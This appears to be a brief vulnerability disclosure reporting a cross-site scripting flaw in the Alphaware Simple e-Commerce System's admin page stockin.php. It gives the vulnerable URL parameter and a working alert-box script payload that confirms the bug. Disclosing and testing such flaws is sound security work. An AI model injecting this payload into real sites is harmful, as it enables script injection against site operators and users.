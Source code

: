 ## Alphaware e-Commerce system has XSS vulnerability

## XSS

Enter the administrator background page

http://127.0.0.1/cve/admin/stockin.php?id=3

There is an xss vulnerability in the stockin.php file

Enter XSS payload

```
'"><script>alert(/xss/)</script>
```

![1](1.png)

The page successfully pops up XSS, the vulnerability exists



## Vulnerable code

![2](2.png)



## link

https://www.sourcecodester.com/php/11676/alphaware-simple-e-commerce-system.html
